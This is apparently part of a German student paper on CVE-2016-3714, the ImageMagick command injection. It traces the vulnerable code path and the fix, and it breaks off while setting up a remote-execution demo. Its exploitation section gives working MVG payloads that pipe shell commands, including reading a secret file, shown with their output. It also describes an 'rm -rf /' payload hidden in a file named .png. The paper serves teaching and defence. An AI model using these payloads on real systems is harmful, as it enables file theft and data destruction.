\chapter{CVE-2016-3714}\label{ch:cve}

%
% Details
%
\section{Details zur Schwachstelle}\label{sec:details-zur-schwachstelle}

\subsection{Zusammenfassung}\label{subsec:zusammenfassung}

ImageMagick bietet die Möglichkeit eine Bild-Datei per URL herunterzuladen und zum Beispiel Konvertierungsoperationen auf
dieser anzuwenden.\\

Folgendes Beispiel lädt ein Bild von "`\%BILD\_URL\%"' herunter,
konvertiert es zu einer JPG Datei und speichert es unter dem Namen "`image.jpg"' auf dem Dateisystem ab.
"`\%BILD\_URL\%"' ist lediglich ein Platzhalter in der Dokumentation für eine Beliebige HTTP- beziehungsweise HTTPS-URL.

\begin{lstlisting}[language=Bash, caption=Beispielbefehl Codeablauf,label={lst:codeablaufbeispiel}]
convert '%BILD_URL%' image.jpg
\end{lstlisting}
\vspace{5mm}

Besonders gefährlich wird es, wenn URLs in MVG oder SVG Dateien eingebettet sind.
Speziell präparierte MVG Dateien können dann unter anderem ohne direkten Shell Zugriff an einen Webserver übergeben werden.
(z.B. Über einen File-Upload)
Führt der Webserver dann ImageMagick-Operationen aus, kann Remote Code im Hintergrund ausgeführt werden.
Ausführliche Beispiele sind im Kapitel "`Ausnutzung der Schwachstelle"' zu finden.\\

Um die Bilddaten der URL zu bekommen, wird der externe https-Delegate benutzt.
Der https-Delegate benutzt für das Mapping den folgenden Befehl,
wie in der Datei config/delegates.xml.in ersichtlich ist~\cite{DelegatesXml}.

\begin{lstlisting}[firstnumber=90, language=XML, caption=config/delegates.xml.in https-Delegate,label={lst:lstlisting}]
  <delegate decode="https" command="&quot;@WWWDecodeDelegate@&quot; -s -k -L -o &quot;%o&quot; &quot;https:%M&quot;"/>
\end{lstlisting}
\vspace{5mm}

Löst man "`\&quot"' nun zu Anführungszeichen auf, ergibt sich der Befehl:\\
\begin{lstlisting}[firstnumber=1, language=Bash, caption=Aufgelöster https-Delegate-Befehl,label={lst:lstlisting}]
"@WWWDecodeDelegate@" -s -k -L -o "%o" "https:%M"
\end{lstlisting}
\vspace{5mm}

Der "`@WWWDecodeDelegate@"' ist dabei der systemspezifische Befehl für das Herunterladen einer Datei aus dem Internet - für Linux also wget, bzw. curl.\\
Im Platzhalter "`\%M"' liegt später die URL, verknüpft mit dem Bash-Angriffsbefehl.\\

\newpage
Genau hier liegt die Schwachstelle.
Der URL-Wert wird nicht ausreichend gesanatized,
bevor er mit dem Platzhalter "`\%M"' ersetzt und der neue Befehl an den system()-Call weitergegeben wird.\\

Es wird folgende URL betrachtet, zusammen mit dem Angriffscode:

\begin{lstlisting}[firstnumber=91, language=Bash, caption=Beispielhafte URL mit Angriffscode,label={lst:lstlisting}]
https://example.com"|ls "-la
\end{lstlisting}
\vspace{5mm}

Setzt man die URL nun in den "`\%M"' Parameter des HTTPS-Delegates ein, ergibt sich unter Linux folgender vereinfachter Befehl:

\begin{lstlisting}[language=Bash, caption=HTTPS Delegate mit Angriffscode,label={lst:angriffscodedelegate}]
"curl" "https:https://example.com"|ls "-la"
\end{lstlisting}
\vspace{5mm}

ImageMagick nimmt nun diesen Befehl, erkennt die URL, lädt das Bild herunter und verarbeitet es wie gewünscht.\\

Dabei wird der "`angehängte"' Angriffscode aber einfach mitgegeben bis zur Shell.
Man erkennt, dass der "`ls -la"'-Teil nicht mehr Bestandteil der eigentlichen URL,
sondern als eigenständiger Befehl - verknüpft durch die Linux-Pipe - hinter der URL steht.\\

Die Shell interpretiert die Pipe "`|"' standardmäßig als Verknüpfung.
Die Ausgabe des ersten Befehls wird als Input des zweiten Befehls verwendet.\\
Da der zweite Befehl keinen Input benötigt, wird dieser einfach im Hintergrund ausgeführt und der Angriff ist erfolgreich.\\
\subsection{Code-Ablauf}\label{subsec:code-ablauf}

Im Folgenden wird detailliert der Ablauf im Code dargestellt, welcher beim Ausnutzen der Schwachstelle abläuft.\\

Der Einstiegspunkt für das Programm ist abhängig vom übergebenen Shell-Befehl in der Kommandozeile.\\

Das konkrete Beispiel wird anhand folgendem "`convert"'-Befehl erläutert:

\begin{lstlisting}[language=Bash, caption=Beispielbefehl Codeablauf,label={lst:codeablaufbeispiel}]
convert 'https://example.com/image.png"|ls "-la' image.jpg
\end{lstlisting}
\vspace{5mm}

In dem Beispiel soll also ein PNG-Bild von einer Website heruntergeladen werden und zu einer JPG Datei konvertiert werden.
Im Hintergrund wird der "`ls -la"' Befehl ausgeführt, wodurch die hier betrachtete Schwachstelle ausgenutzt wird.\\\\
Weitere Beispiele sind in dem Kapitel "`Ausnutzung der Schwachstelle"' zu finden. \\

Nach dem Ausführen des convert-Befehls wird im ImageMagick-Ordner in der Datei utilities/convert.c die main()-Methode ausgeführt.
Die Variable "`argv"' enthält alle übergebenen Command-Parameter.\\

\begin{lstlisting}[firstnumber=90, language=C, caption=utilities/convert.c Einstieg main(),label={lst:lstlisting}]
int main(int argc,char **argv)
{
  return(ConvertMain(argc,argv));
}
\end{lstlisting}
\vspace{5mm}

Parameter sind hier:
\begin{enumerate}
  \item Quellname, bestehend aus URL, sowie injectetem Command
  \item Zielname "`image.jpg"'
\end{enumerate}

Die main()-Methode ruft dann die ConvertMain()-Methode in derselben Datei auf.

\begin{lstlisting}[firstnumber=67, language=C, caption=utilities/convert.c ConvertMain(),label={lst:lstlisting}]
static int ConvertMain(int argc,char **argv)
{
  ExceptionInfo
    *exception;

  ImageInfo
    *image_info;

  MagickBooleanType
    status;

  MagickCoreGenesis(*argv,MagickTrue);
  exception=AcquireExceptionInfo();
  image_info=AcquireImageInfo();
  status=MagickCommandGenesis(image_info,ConvertImageCommand,argc,argv,
    (char **) NULL,exception);
  image_info=DestroyImageInfo(image_info);
  exception=DestroyExceptionInfo(exception);
  MagickCoreTerminus();
  return(status != MagickFalse ? 0 : 1);
}
\end{lstlisting}
\vspace{5mm}

In dieser Methode ist besonders der Methodenaufruf "`MagickCoreGenesis()"' von Bedeutung.
Diese generische Methode wendet, basierend auf den Commandline-Argumenten,  Verarbeitungsoperationen auf ein Bild an.\\\\
Welche Operationen genau ausgeführt werden, entscheidet der gewählte Command.
Für den convert-Befehl wird hier eine Referenz auf die Methode "`ConvertImageCommand"' übergeben.
Für jeden ImageMagick Befehl gibt es einen eigenen Command.
So zum Beispiel auch für den identify-Befehl die "`IdentifyImageCommand"' Methode.\\

Außerdem werden die Commandline-Argumente an die Methode übergeben.
Der Rückgabewert, welcher in die Variable "`status"' geschrieben wird, gibt an, ob alle Operationen fehlerfrei angewendet werden konnten.\\

Innerhalb der MagickCoreGenesis-Methode werden nun zuerst einige Parameter überprüft, welche für alle ImageMagick Befehle gesetzt werden können.
Hier ist zum Beispiel die "`-debug"'-Flag zum Debugging zu nennen.

\begin{lstlisting}[firstnumber=158, language=Bash, caption=wand/migrify.c Debugging Flag in der MagickCoreGenesis-Methode,label={lst:migrifydebug}]
if (LocaleCompare("debug",option+1) == 0)
  (void) SetLogEventMask(argv[++i]);
\end{lstlisting}
\vspace{5mm}

Anschließend wird die übergebene Command-Methode "`ConvertImageCommand()"' mit den convert-Befehlsargumenten ausgeführt:

\begin{lstlisting}[firstnumber=172, language=C, caption=wand/migrify.c Aufruf des ConvertImageCommand,label={lst:lstlisting}]
status=command(image_info,argc,argv,metadata,exception);
\end{lstlisting}
\vspace{5mm}


Die Methode ConvertImageCommand() befindet sich in wand/convert.c. Das Ziel der Methode ist es, Konvertierungs-Operationen auszuführen und eine neue Datei im passenden Format zu schreiben:\\

\begin{lstlisting}[firstnumber=498, language=C, caption=wand/convert.c ConvertImageCommand(),label={lst:lstlisting}]
WandExport MagickBooleanType ConvertImageCommand(ImageInfo *image_info,
  int argc,char **argv,char **metadata,ExceptionInfo *exception)
{
  ...
}
\end{lstlisting}
\vspace{5mm}

Innerhalb der Methode wird nun die ReadImages()-Methode aufgerufen:

\begin{lstlisting}[firstnumber=628, language=C, caption=wand/convert.c Aufruf ReadImages(),label={lst:lstlisting}]
  images=ReadImages(image_info,exception);
\end{lstlisting}
\vspace{5mm}

Die ReadImages()-Methode befindet sich in magick/constitue.c, liest ein oder mehrere Bilder ein und gibt diese innerhalb einer Liste zurück.\\
In diesem Fall wird nur ein Bild eingelesen.
Manche ImageMagick Befehle, wie zum Beispiel der mogrify-Befehl, https://legacy.imagemagick.org/Usage/basics/#mogrify erlauben jedoch direkt mehrere Bilder zu behandeln.\\

\begin{lstlisting}[firstnumber=790, language=C, caption=magick/constitute.c ReadImages(),label={lst:lstlisting}]
MagickExport Image *ReadImages(const ImageInfo *image_info,
  ExceptionInfo *exception)
{
  ...
}
\end{lstlisting}
\vspace{5mm}

Jedes einzelne Bild wird dann der ReadImage()-Methode übergeben.\\

Die Methode ReadImage() prüft nun ab, ob ein interner Decoder für das Bild vorhanden ist.

\begin{lstlisting}[firstnumber=486, language=C, caption=magick/constitue.c Aufruf InvokeDelegate(),label={lst:}]
if ((magick_info != (const MagickInfo *) NULL) &&
    (GetImageDecoder(magick_info) != (DecodeImageHandler *) NULL))
  {
    // Interner Decoder vorhanden
    ...
    ...
  }
else
  {
    // Kein interner Decoder vorhanden: Muss von externem Delegate behandelt werden
    ...
    (void) InvokeDelegate(read_info,image,read_info->magick,(char *) NULL, exception);
    ...
\end{lstlisting}
\vspace{5mm}

Die Schwachstelle bezieht sich auf das externe HTTPS-Delegate.
Es wird also der else Zweig ausgeführt.\\

Im folgenden Abschnitt wird die Methode InvokeDelegate() genauer betrachtet.
Sie befindet sich in der Datei magick/delegate.c.

\begin{lstlisting}[firstnumber=1097, language=C, caption=magick/delegate.c InvokeDelegate(),label={lst:lstlisting}]
MagickExport MagickBooleanType InvokeDelegate(ImageInfo *image_info,
  Image *image,const char *decode,const char *encode,ExceptionInfo *exception)
{
  ...
}
\end{lstlisting}
\vspace{5mm}

Innerhalb der InvokeDelegate()-Methode werden nun zuerst einige Prüfungen durchgeführt.
Unter anderem wird abgeprüft, ob eine gesetzte Policy die Ausführung des Delegates verhindert.
Dies wird später auch bei der Verteidigung der Schwachstelle von Bedeutung sein.

\begin{lstlisting}[firstnumber=1129, language=C, caption=magick/delegates.c InvokeDelegate() Policy-Überprüfung,label={lst:delegatepolicy}]
if (IsRightsAuthorized(DelegatePolicyDomain,rights,decode) == MagickFalse)
  {
    errno=EPERM;
    (void) ThrowMagickException(exception,GetMagickModule(),PolicyError,
      "NotAuthorized","`%s'",decode);
    return(MagickFalse);
  }
\end{lstlisting}
\vspace{5mm}


Nachdem diese Checks erfolgreich übersprungen wurden, wird der hinterlegte-Command aus dem Delegate,
zusammen mit den aktuellen Bild-Informationen and die Methode InterpretImageProperties() übergeben.

\begin{lstlisting}[firstnumber=1295, language=C, caption=magick/delegates.c InvokeDelegate() InterpretImageProperties() Aufruf,label={lst:delegatesinterpretcall}]
command=InterpretImageProperties(image_info,image,commands[i]);
\end{lstlisting}
\vspace{5mm}

Das Ziel der InterpretImageProperties-Methode ist es, in dem Delegate eingebettete Platzhalter mit den entsprechenden Bild-Attributen zu ersetzen.
Rückgabe der Methode ist der neue Command ohne Platzhalter.
Auf mögliche Platzhalter wird gleich noch genauer eingegangen.\\

Für jeden gefundenen Platzhalter wird die Methode GetMagickProperty() aufgerufen.
Diese ersetzt einen einzelnen Platzhalter mit dem dazugehörigen Bild-Attribut.\\

In der Methode GetMagickProperty() wird eine Unterscheidung zwischen Property-Lettern,
also Platzhaltern mit einem einzelnen Zeichen (z.B. \%M) und Platzhaltern mit mehreren Zeichen (z.B \%basename) getroffen.\\

Für Platzhalter mit einem Zeichen wird die Methode GetMagickPropertyLetter() aufgerufen.
Das HTTPS Delegate hat den Platzhalter \%M in dem Command.
Es handelt sich also um einen Platzhalter, welcher in der GetMagickPropertyLetter() ersetzt wird.\\

Die Methode GetMagickPropertyLetter() enthält einen großen Switch-Case Block mit allen implementierten Platzhalter-Zeichen.

\begin{lstlisting}[language=C, caption=magick/property.c GetMagickPropertyLetter Switch über mögliche Platzhalter,label={lst:propertyswitch}]
switch (letter)
{
  case 'b':
  {
    /*
      Image size read in - in bytes.
    */
    (void) FormatMagickSize(image->extent,MagickFalse,value);
    if (image->extent == 0)
      (void) FormatMagickSize(GetBlobSize(image),MagickFalse,value);
    break;
  }
  ...
  case 'M':
  {
    /*
      Magick filename - filename given incl. coder & read mods.
    */
    string=image->magick_filename;
    break;
  ...
  }
\end{lstlisting}
\vspace{5mm}

Hier ist unter anderem auch unser Platzhalter \%M aus dem HTTPS Delegate zu finden.
Die Methode geht in den case-Block und setzt die Variable "`string"' auf den übergebenen Filenamen.
Der Inhalt der Variable "`string"' wird am Ende des Switch-Blocks an den Aufrufer zurückgegeben.\\

Dies hat zur Folge, dass in dem Delegate-Command der Platzhalter \%M mit dem übergebenen Dateinamen,
also der URL und dem injecteten ls-Commands, ersetzt wird.\\

Nachdem aus dem Delegate-Befehl alle Parameter ersetzt wurden, wird dieser an die Methode ExternalDelegateCommand() weitergegeben.

\begin{lstlisting}[firstnumber=1301, language=C, caption=magick/delegate.c Aufruf ExternalDelegateCommand(),label={lst:lstlisting}]
  status=ExternalDelegateCommand(delegate_info->spawn,image_info->verbose,
    command,(char *) NULL,exception) != 0 ? MagickTrue : MagickFalse;
\end{lstlisting}
\vspace{5mm}

Innerhalb der ExternalDelegateCommand()-Methode wird die Methode SanitizeDelegateCommand() aufgerufen:\\

\begin{lstlisting}[firstnumber=395, language=C, caption=magick/delegate.c Aufruf SanitizeDelegateCommand(),label={lst:lstlisting}]
  sanitize_command=SanitizeDelegateCommand(command);
\end{lstlisting}
\vspace{5mm}

Die SanitizeDelegateCommand()-Methode bereinigt das übergebene Kommando, filtert also unzulässige Zeichen heraus:\\

\begin{lstlisting}[firstnumber=322, language=C, caption=magick/delegate.c SanitizieDelegateCommand(),label={lst:lstlisting}]
static char *SanitizeDelegateCommand(const char *command)
{
  char
    *sanitize_command;

  const char
    *q;

  register char
    *p;

  static char
    whitelist[] =
      "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_- "
      ".@&;<>()|/\\\'\":%=~`";

  sanitize_command=AcquireString(command);
  p=sanitize_command;
  q=sanitize_command+strlen(sanitize_command);
  for (p+=strspn(p,whitelist); p != q; p+=strspn(p,whitelist))
    *p='_';
  return(sanitize_command);
}
\end{lstlisting}
\vspace{5mm}

Nach dem "`Sanitizen"' wird dann das bereinigte Kommando direkt an die system()-Methode in die Shell übergeben:\\

\begin{lstlisting}[firstnumber=402, language=C, caption=magick/delegate.c Aufruf system(),label={lst:lstlisting}]
  status=system(sanitize_command);
\end{lstlisting}
\vspace{5mm}

Der zum Ausnutzen der Schwachstelle eingefügte Shell-Befehl wird dann mit ausgeführt.

%
% Verteidigung
%
\section{Verteidigung der Schwachstelle}\label{sec:verteidigung-der-schwachstelle}

\newpage
\section{Verteidigung der Schwachstelle}\label{sec:verteidigung-der-schwachstelle}
\subsection{Fix ImageMagick 6.9.3-10 und 7.0.1-1}\label{subsec:fix-imagemagick-6.9.3-10}

Die Schwachstelle ist für ImageMagick 6 in Version 6.9.3-10~\cite{Fix6A}~\cite{Fix6B} beseitigt.
Für ImageMagick 7 ist mit der Version 7.0.1-1~\cite{Fix7A}~\cite{Fix7B} behoben.\\
Im Folgenden werden die einzelnen Codestellen erläutert, die dafür verantwortlich sind.
Es wird sich an dem Code von ImageMagick 6 orientiert.
Die Änderungen sind jedoch auch bei ImageMagick 7 in denselben Dateien durchgeführt worden.\\

Wie bereits in den Details der Schwachstelle erläutert,
entsteht die Schwachstelle dadurch,
dass man durch geschicktes wählen der URL aus dem \%M-Parameter ausbrechen kann und
somit per Pipe weitere Befehle an den system()-Call übergeben kann.\\

Das Ersetzen der Parameter übernimmt, wie oben beschrieben die Methode\\ GetMagickPropertyLetter()~\cite{DeklarationGetMgickPropertyLetter}.

\begin{lstlisting}[firstnumber=2627, language=C, caption=magick/property.c Ungefilterte Weitergabe M-Parameter,label={lst:lstlisting}]
  case 'M':
  {
    /*
      Magick filename - filename given incl. coder & read mods.
    */
    string=image->magick_filename;
    break;
  }
\end{lstlisting}
\vspace{5mm}

Hier ist ersichtlich, dass der komplette Dateiname inklusive Anführungszeichen gesetzt wird.\\

Die Verteidigung der Schwachstelle ist ab Version 6.9.3-10 so gelöst, dass für das https-Delegate anstatt Parameter "`\%M"' ein neu eingeführter Parameter "`\%F"'~\cite{CompareDelegatexXML} verwendet wird:\\

\begin{lstlisting}[firstnumber=91, language=XML, caption=config/delegates.xml.in https-Delegate 6.9.3-10,label={lst:lstlisting}]
  <delegate decode="https" command="&quot;@WWWDecodeDelegate@&quot; -s -k -L -o &quot;%o&quot; &quot;https:%F&quot;"/>
\end{lstlisting}
\vspace{5mm}

Bereinigt um die Codierung der Anführungszeichen ergibt sich:\\

\begin{lstlisting}[firstnumber=1, language=Bash, caption=Aufgelöster https-Delegate-Befehl 6.9.3-10,label={lst:lstlisting}]
"@WWWDecodeDelegate@" -s -k -L -o "%o" "https:%F"
\end{lstlisting}
\vspace{5mm}

\newpage

Schaut man nun wieder in der GetMagickPropertyLetter()-Methode~\cite{ComareFParam},
erkennt man ähnlichen Code wie in der SanitizeDelegateCommand()-Methode.

\begin{lstlisting}[firstnumber=2610, language=C, caption=magick/property.c Gefilterte Wietergabe F-Parameter,label={lst:lstlisting}]
  case 'F':
  {
    const char
      *q;

    register char
      *p;

    static char
      whitelist[] =
        "^-ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
        "+&@#/%?=~_|!:,.;()";

    /*
      Magick filename (sanitized) - filename given incl. coder & read mods.
    */
    (void) CopyMagickString(value,image->magick_filename,MaxTextExtent);
    p=value;
    q=value+strlen(value);
    for (p+=strspn(p,whitelist); p != q; p+=strspn(p,whitelist))
      *p='_';
    break;
  }
\end{lstlisting}
\vspace{5mm}

Es fällt auf, dass die Anführungszeichen "' und ' nicht in der Whitelist enthalten sind.
Das hat zur Folge, dass der Filename nicht mehr, wie zuvor einfach weitergereicht, sondern um Anführungszeichen bereinigt wird.\\

Dadurch ist es nicht mehr möglich aus dem URL-Argument des HTTPS-Delegate Commands auszubrechen und weitere Befehle per Pipe hinter der URL anzugeben.
Befehle, die mit Pipe dahinter angegeben werden, würden jetzt als Bestandteil der URL gewertet werden.

\begin{lstlisting}[language=Bash, caption=Vereinfachtes Beispiel für HTTPS Delegate-Command nach dem Ersetzen der Platzhalter,label={lst:simpleexampleafter}]
"curl" "https:https://example.com/image.png|ls -la"
\end{lstlisting}
\vspace{5mm}

Da diese URL jedoch nicht valide ist, gibt der aufgerufene Delegate Command (meist curl oder wget) kein valides Bild zurück.\\

Der Parameter "`\%M"' wird nicht einfach abgeändert,
sondern bleibt in der vorherigen Form vorhanden, da noch andere Delegates, wie der "`mpeg:encode"'-Delegate auf ihn zugreifen.\\
\input{chapters/3CVE-2016-3714/Verteidigung/Andere Lösungen}

%
% Ausnutung
%
\section{Ausnutzung der Schwachstelle}\label{sec:ausnutzung-der-schwachstelle}

\subsection{Erklärung und einfache Beispiele}\label{subsec:erklaerung-und-einfache-beispiele}

Bei den folgenden Beispielen wird eine Shell-Verbindung zum Zielsystem benötigt.
Es wird jeweils eine MVG Datei erstellt und diese anschließend mit dem Imagemagick-Befehl ′identify′ ausgeführt~\cite{PHPImagickIdentifyImage}.
Dieser Befehl wird normalerweise dafür benutzt,
um Informationen über ein Bild - wie die Bildgröße oder den Bildtyp - zu bekommen.
Die Sicherheitslücke ist jedoch nicht nur auf diesen Befehl begrenzt.\\

\begin{lstlisting}[language=Bash, caption=Erklaerung - Identify einer validen PNG Datei,label={lst:lstlisting}]
> identify valid.png
valid.png PNG 320x240 320x240+0+0 8-bit sRGB 2c 302B 0.000u 0:00.000
\end{lstlisting}


\newpage
\subsection{Erstes Beispiel: Ausgabe der Dateien im aktuellen Ordner}\label{subsec:erstes-beispiel:-ausgabe-der-dateien-im-aktuellen-ordner}

Es wird eine MVG Datei erstellt und folgend befüllt.

\vspace{5mm}

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei erstellen,label={lst:lstlisting}]
> vim test1.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}


Besonders wichtig ist hier Zeile vier.
In der url() Methode, wird per Pipe ein zweiter Befehl, nämlich ls -la mitgegeben, welcher die Dateien des aktuellen Verzeichnis auflistet.\\


Per identify wird nun im Namen des aktuell angemeldeten Users folgende Ausgabe erzeugt:

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei identify,label={lst:lstlisting}]
> identify test1.mvg
total 16
drwxr-xr-x 2 root root 4096 Dec 16 08:21 .
drwx------ 8 root root 4096 Dec 16 08:20 ..
-rw-r--r-- 1 root root  144 Dec 16 08:21 test1.mvg
identify: unrecognized color `https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la' @ warning/color.c/GetColorCompliance/1046.
identify: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
test1.mvg MVG 640x480 640x480+0+0 16-bit sRGB 144B 0.000u 0:00.000
identify: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
\end{lstlisting}
\vspace{5mm}


⇒ Das eigentliche identifizieren des Bildes schlägt zwar fehl, es kann aber gut gesehen werden, dass vorher im Hintergrund der hinterlegte Command ausgeführt wurde.

\newpage
\subsection{Zweites Beispiel: Auslesen einer geheimen Datei}\label{subsec:zweites-beispiel:-auslesen-einer-geheimen-datei}

Das erste Beispiel hat das Problem gut gezeigt, allerdings nicht die problematische Auswirkung der Sicherheitslücke.
Im nächsten Beispiel soll der Inhalt einer privaten Passwort-Datei angezeigt werden.
Vergleichbar ist dies mit einer Config-Datei, in der beispielsweise Zugangsdaten zu einer Datenbank hinterlegt sind.\\

Hierfür wird folgende Datei erstellt und befüllt:

\begin{lstlisting}[language=Bash, caption=Beispiel 2,label={lst:bsp2}]
> vim test2.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|cat "/home/max/secretFile)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Nach dem ausführen erscheint in der Console der Inhalt der geheimen Datei:\\ => "`MY\_SECRET\_PASSWORD"'

\begin{lstlisting}[language=Bash, caption=Beispiel 2 - Identify,label={lst:bsp2identify}]
> identify test2.mvg
MY_SECRET_PASSWORD
identify: unrecognized color `https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|cat "SECRET_FILE' @ warning/color.c/GetColorCompliance/1046.
identify: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
exploit.mvg MVG 640x480 640x480+0+0 16-bit sRGB 153B 0.000u 0:00.000
identify: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
root@vm-its:~/install/6.8.0/code/case2#
\end{lstlisting}
\vspace{5mm}

\subsection{Die Problemematik der Datei Endung}\label{subsec:die-problemematik-der-datei-endung}
Datei-Endungen werden benutzt, damit Menschen direkt wissen, um welchen Dateityp es sich handelt.
Außerdem hat es den Vorteil, dass im Betriebssystem für Datei-Endungen ein gewisses Standard-Program festgelegt werden kann.
So können z.B. .html Dateien standardmäßig mit Firefox oder .txt Dateien standardmäßig mit dem Editor geöffnet werden.

Für Imagemagick ist die Dateiendung irrelevant.
Bild-Typen werden anhand des Dateiinhalts, nicht der Endung im Dateinamen erkannt.
Dies ist problematisch, da hier auch der User getäuscht werden kann.
Durch das Vorschaubild der gewohnten Bildvorschauanwendung, verlässt sich der User darauf, dass eine Datei mit der Endung .png auch wirklich vom Typ PNG ist.
Allerdings kann es sich z.B. auch um eine angreifende MVG-Datei handeln.
Dies ist vor allem im gleich beschriebenen Social Engineering Fall relevant.

\subsection{Zwischenfazit}\label{subsec:zwischenfazit}

In den beiden Fällen gezeigten Fällen wird deutlich, wie ein Befehl in eine mvg Datei eingebettet werden kann.
Es ist außerdem erkennbar, dass Code-Execution gefährlich ist.
Die hier gezeigten Beispiele zeigen nur das Auslesen von Informationen.
Es können allerdings auch schreibende, sowie zerstörende Befehle im Namen des Users ausgeführt werden.
Es wäre im schlimmsten Fall also auch ein Löschen aller Dateien möglich, auf die der User Zugriff hat.
\\
Da bis jetzt physischer Zugriff auf das System benötigt wird und der Angreifer nicht Remote Code ausführen kann, ist die einzige Möglichkeit für einen Angreifer auf Social Engineering zurückzugreifen.\\
\newpage
\subsection{Social Engineering}\label{subsec:social-engineering}

Unter Social Engineering versteht man, sicherheitsrelevante Daten durch die Ausnutzung menschlicher Komponenten
in Erfahrung zu bringen~\cite{WasIstSocialEngineering}.\\\\

Ein folgendes Szenario wäre denkbar:\\

Die Marketingfirma M kümmert sich um die Website der Firma X. Firma X sendet regelmäßig Bilder per Mail an Firma M,
damit jene die Bilder auf der Website im News Bereich der Website veröffentlichen kann.\\

Bilder werden über ein CMS verwaltet.
Es werden also zur Pflege der Websites keine Informatiker mit Erfahrung in IT-Sicherheit benötigt.\\

Die Bilder sind teilweise in sehr hoher Auflösung fotografiert worden, sind also teilweise einzeln über 20MB groß.
Damit die Bilder schneller hochgeladen und den Besuchern der Website eine gute User Experience
durch schnelle Ladezeit geboten werden kann, müssen diese Bilder vor dem Upload noch verkleinert werden.\\

Die IT-Abteilung der Firma M, hat Imagemagick installiert und den Mitarbeitern ein Program geschrieben,
bei welchem nur der Dateiname übergeben werden muss.
Im Hintergrund wird dann der Scale-Befehl von Imagemagick aufgerufen, der das Bild auf die richtige größe skaliert,
damit dieses anschließend von dem Mitarbeiter auf die Website hochgeladen werden können.\\

Ein bösewilliger Angreifer gibt sich nun als Mitarbeiter der Firma X aus, möchte, dass ein neuer News-Eintrag erstellt wird.
Er sendet im Anhang eine MVG-Datei mit, welche nach dem obrigen Aufbau formatiert ist und einen 'rm -rf /'-Befehl enthält.
Die MVG-Datei hat die Endung .png, wodurch die Datei für den Mitarbeiter ungefährlich aussieht.\\

Der Mitarbeiter, welcher die Mail bearbeitet, erkennt diese nicht als Schadsoftware
und führt das Program zum Skalieren von Dateien mit dieser Datei als Parameter aus.
Der Hinterlegte `rm` Befehl wird ausgeführt und sämtliche Dateien, auf die der ausführende Mitarbeiter Zugriff hat, werden gelöscht.
Da auf dem Rechner auch noch Bilder und Texte von anderen Projekten liegen, ist für die Firma ein deutlicher Schaden entstanden.
Bilder müssen aus Backups wieder hergestellt werden
und gewisse Dateien müssen neu angefordert beziehungsweise neu erarbeitet werden,
was einige Arbeitstage für die komplette Firma in Anspruch nimmt.\\

Durch dieses Szenario ist erkennbar, dass auch ein Angriff ohne direkten Zugriff auf den Zielcomputer großen Schaden anrichten kann.

\subsection{Komplexes Beispiel mit Remote Code Execution}\label{subsec:komplexes-beispiel-mit-remote-code-execution}

\subsubsection{Erklärung}
In dem nachfolgenden Beispiel soll eine Situation gezeigt werden,
in der der Angreifer von einem Server mit öffentlicher IP aus direkt die Möglichkeit hat,
sensible Daten abzugreifen und potentiell auch Schaden auf dem Zielserver anzurichten kann.\\

Für das Beispiel soll ein Forum simuliert werden, bei dem User ein eigenes Profilbild hochladen können.
Da Profilbilder im Forum nur sehr klein angezeigt werden müssen,
sollen diese per Imagemagick herunterskaliert werden,
um Speicherplatz zu sparen und damit die Bilder schneller an den Website-Aufrufer ausgeliefert werden kann.
Besonders für User, die über Mobile Daten zugreifen,
ist jede Optimierung der zu übertragenen Bildern und Source-Dateien sehr wichtig.\\

Bei dieser Situation handelt es sich um einen typischen Use-Case,
da in einem Forum Nutzern immer die Möglichkeit haben, selbst Bilder hochzuladen.
Diese Bilder müssen, wie beschrieben analysiert und modifiziert werden,
was oft die Software ImageMagick übernimmt.
\subsubsection{Aufbau von Website}
Die Anwendung wird mit HTML, PHP und CSS aufgebaut.
Dafür muss zunächst ein Webserver installiert werden.

\subsubsubsection{Installation NGINX}

Wir haben uns für NGINX entschieden.
Da NGINX auf eine asynchrone Architektur setzt, bietet es eine bessere Performance im Vergleich zu dem Konkurrenten Apache~\cite{NginxVsApache}.
Seit Oktober 2020 wird NGINX außerdem auf den meisten Computern als Webserver eingesetzt und übertrifft damit Apache~\cite{WebServerSurvey}.

\begin{figure}[H]
    
\includegraphics[width=1\textwidth]{img/NGINX.png}
    \caption{Anteil der Computer, auf denen NGINX eingesetzt wird~\cite{WebServerSurvey}}\label{fig:figure}
\end{figure}

\subsubsubsection{Installation von nginx}

\begin{lstlisting}[language=Bash, caption=Installation von NGINX,label={lst:nginxinstall}]
apt-get install nginx
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{Installation von php und php-fpm}

PHP wird ebenfalls aus den Paketquellen installiert.
Außerdem wird das Modul php-fpm installiert, welches für nginx benötigt wird~\cite{InstallNginxPHP}.

\begin{lstlisting}[language=Bash, caption=PHP und PHP-FPM installation,label={lst:installphpphpfpm}]
